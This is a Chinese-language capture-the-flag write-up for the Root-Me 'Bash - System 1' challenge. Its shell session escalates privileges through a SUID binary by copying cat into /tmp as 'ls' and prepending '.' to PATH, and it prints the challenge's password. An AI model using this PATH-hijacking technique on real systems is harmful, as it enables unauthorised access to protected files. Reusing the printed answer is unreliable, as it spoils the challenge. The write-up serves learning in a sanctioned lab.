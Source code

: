 ## [[Root-Me](https://www.root-me.org/)] [[App-Script](https://www.root-me.org/en/Challenges/App-Script/)] [[Bash - System 1](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)] [[解题报告](http://exp-blog.com/2019/01/02/pid-2705/)]

------

## 考察点

 - SUID权限的可执行文件利用
 - 环境变量 PATH 中含有当前路径 "." 造成的路径胁持
 - 文件权限的传递方式

## 解题思路

> 先直接用脚本讲解正确的解题步骤，后面再解释这个思路是怎么来的）

```shell
# (1) 登入靶机后，首先检查当前的目录环境（当前用户、工作目录、拥有文件、权限等）
app-script-ch11@challenge02:~$ pwd
/challenge/app-script/ch11

# (2) 发现一个具有SUID权限的可执行脚本 ch11、一个只读的C源码文件 ch11.c、一个无法读写隐藏文件 .passwd
#     由此可以猜测最终目标就是要通过某种途径查看 .passwd 的内容
app-script-ch11@challenge02:~$ ll
total 24
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11         4096 Aug 11  2015 ./
drwxr-xr-x 17 root                    root                    4096 Mar 17  2018 ../
-r--r-----  1 app-script-ch11-cracked app-script-ch11-cracked   14 Feb  8  2012 .passwd
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11         7160 Aug 11  2015 ch11*
-r--r-----  1 app-script-ch11         app-script-ch11          153 Aug 11  2015 ch11.c

# (3) 查看C源码，其功能就是调用 ls 系统命令，还很贴心地注释了 gcc 编译命令
app-script-ch11@challenge02:~$ more ch11.c
#include <stdlib.h>
#include <stdio.h>

/* gcc -m32 -o ch11 ch11.c */

int main(void) 
{
        system("ls /challenge/app-script/ch11/.passwd");
        return 0;
}

# (4) 尝试执行 gcc 编译，发现没有权限在当前目录编译
app-script-ch11@challenge02:~$ gcc -m32 -o ch11 ch11.c
Cannot create temporary file in ./: Permission denied
Aborted

# (5) 直接执行 ch11 脚本，通过其输出可以知道这就是从 ch11.c 编译而来的
#     而且这个脚本还具备 SUID 权限，其 owner 为 app-script-ch11-cracked
#     在前面已经知道，.passwd 文件也是同一个 owner，且只有 owner 可读
#     因此到这里就可以明确，最终的目标就是利用 ch11 脚本的 SUID 位特性进行提取查看 .passwd 文件
app-script-ch11@challenge02:~$ ./ch11
/challenge/app-script/ch11/.passwd

# -----------------------------------------------------------
# (?) 这里可能有些同学认为自己“找到了解题方法”：
#         修改 ch11.c 调用的系统命令，如改成 "cat /challenge/app-script/ch11/.passwd"，然后重新编译执行就能达成目的
#         而 ch11.c 是只读的，问题就变成怎么编辑 ch11.c
#
#     这思路其实是错的，这也是出题人希望误导的方向。至于为什么后面再解释，暂时不展开。
#
#     这题的解法其实不是修改 ch11.c 的命令，二是修改其所调用的命令 ls 的语义为 cat 来达到目的
#     简单来说，就是让 ch11 以为自己执行的是 ls ，实际上执行的是 cat（胁持）
# -----------------------------------------------------------

# (6) 需要知道，linux 执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#     这里查看一下当前环境变量 PATH 的内容
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (7) 列出的目录大部分都没有权限查看，但最终在 /bin 目录找到了 ls 和 cat 两个命令的脚本文件
#     当然用直接用 find / -name "cat" 命令找也是可以的，会更快
#     可以发现 ls 和 cat 脚本对所有用户都是可读的，这就为接下来的伪造命令创造了条件
#     我们的目的是：把 cat 伪装成 ls
#     但因为不具备 /bin 目录的写权限，因此不能直接在这里操作
#     但又因为有读权限，所以可以复制去其他我们有写权限的目录操作
app-script-ch11@challenge02:~$ cd /bin
app-script-ch11@challenge02:/bin$ ll | grep -w 'ls'
-rwxr-xr-x  1 root root  108708 Mar 10  2016 ls*
app-script-ch11@challenge02:/bin$ ll | grep -w 'cat'
-rwxr-xr-x  1 root root   46884 Mar 10  2016 cat*

# (8) 很自然就可以想到 /tmp 临时目录，查一下，确实具有写权限
app-script-ch11@challenge02:/bin$ cd /
app-script-ch11@challenge02:/$ ll | grep -w 'tmp'
drwxrwx-wt  20 root root 2166784 Dec 30 13:40 tmp/

# (9) 但是因为不具备对 /tmp 目录的读权限，为了方便操作，在 /tmp 目录下再建一个子目录 exp，权限设为 777
app-script-ch11@challenge02:/$ cd /tmp
app-script-ch11@challenge02:/tmp$ mkdir exp
app-script-ch11@challenge02:/tmp$ chmod 777 exp
app-script-ch11@challenge02:/tmp$ cd exp

# (10) 把 /bin/cat 脚本复制到 /tmp/exp 目录下，并重命名为 ls ， 至此伪装就完成了
app-script-ch11@challenge02:/tmp/exp$ cp /bin/cat .
app-script-ch11@challenge02:/tmp/exp$ mv cat ls
app-script-ch11@challenge02:/tmp/exp$ ll
total 2172
drwxrwxrwx  2 app-script-ch11 app-script-ch11    4096 Dec 30 13:41 ./
drwxrwx-wt 21 root            root            2166784 Dec 30 13:41 ../
-rwxr-x---  1 app-script-ch11 app-script-ch11   46884 Dec 30 13:41 ls*

# (11) 前面说过，linux 在执行 bash 命令的时候，是从环境变量 PATH 去搜索同名脚本的
#      而 ~/ch11 脚本所调用的系统命令 ls 在 /bin 目录下
#      为了达到路径胁持的目的，可以把当前目录 "." 添加到环境变量 PATH 的最前面
#      使得 linux 在搜索命令脚本的时候，先从当前目录下找
#      而在当前目录 /tmp/exp 下，我们刚刚创造了一个伪装成 ls 的 cat 脚本
app-script-ch11@challenge02:/tmp/exp$ export PATH=.:$PATH
app-script-ch11@challenge02:/tmp/exp$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/

# (12) 把当前目录 "." 添加到环境变量 PATH 后，在当前目录执行 ll 命令已经不起作用了
#      原因是 ll 是命令 ls -la 的缩写别名，因此会连带不生效
app-script-ch11@challenge02:/tmp/exp$ ll
ls: unrecognized option '--color=auto'
Try 'ls --help' for more information.

# (13) 最后，只需要 cd 到伪装成 ls 的 cat 脚本所在的目录下（即使得当前目录变成  /tmp/exp ）
#      再直接调用工作目录下的 ch11 脚本，即可通过 路径胁持+伪装命令 达到提权目的
#      最终我们得到了密码，完成挑战
app-script-ch11@challenge02:/tmp/exp$ ~/ch11
!oPe96a/.s8d5
```


## 解题误区

看了评论区，有大部分同学采用了类似这样的一个错误的做法：

1. 把 ch11.c 复制到 /tmp 目录，然后通过 chmod 赋予自己对 ch11.c 的写权限
2. 用 vim 把 system 命令的 ls 修改成 cat，在 /tmp 目录重新 gcc 编译得到新的 ch11 脚本
3. 通过 chmod u+s  赋予 ch11 脚本 SUID 权限，运行 ch11 脚本，最后报错 `Permission denied` 就做不下去了

为什么这样做无法提权？其实看一下 /tmp 目录 gcc 编译出来的  ch11 脚本的 owner 就知道了：

- 新编译的 ch11 脚本的 owner 是当前用户 app-script-ch11
- 而原本在 app-script-ch11 工作目录的 ch11 脚本的 owner 是 app-script-ch11-cracked

换言之新编译的 ch11 脚本的 SUID 位还是 app-script-ch11 自身，是没有办法利用 SUID 的特性在执行脚本的过程中提权为 app-script-ch11-cracked 的。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/App-Script/%5B01%5D%20%5B5P%5D%20Bash%20%E2%80%93%20System%201/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
